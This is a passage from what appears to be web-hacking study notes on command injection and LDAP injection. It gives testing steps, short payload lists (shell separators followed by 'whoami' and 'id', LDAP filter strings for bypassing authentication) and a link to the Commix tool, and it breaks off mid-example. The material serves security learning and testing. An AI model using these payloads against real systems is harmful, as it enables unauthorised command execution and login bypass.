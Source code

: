 Occurs when user input is run as system commands without proper checks, letting attackers execute arbitrary commands on the server.

**How to test?**

Inject characters like `;`, `|`, or `&&` followed by commands (`ls`, `whoami`) into input fields or URLs.

**Common payloads**

```
; ls
| whoami
&& id
```

**Tools**

- [**Commix**](https://github.com/commixproject/commix) for automated exploitation  

How to use Commix with examples [**here**](https://github.com/commixproject/commix/wiki/Usage-Examples)


> **Tip:** Always validate and sanitize inputs to stop command injection.



### LDAP Injection


Happens when user input is placed directly in an LDAP query without sanitization, allowing attackers to modify the query to bypass login or access hidden data.

<div style="display: flex; justify-content: center;">
  <img src="/images/hacking/LDAPinjection.png" alt="Mi foto" width=65% style="border-radius: 10px; box-shadow: 0 0 10px rgba(0,0,0,0.3); margin-bottom: 50px;"/>
</div>

Example payloads:

```
*)(uid=*))(|(uid=*
admin)(&)
*)(|(uid=admin))
admin*
```

**Bypass authentication:**

If the app builds this query:

```
(&(uid=USER)(userPassword=PASS))
```

and you enter as username:

```
*)(|(uid=*))
```

It becomes:
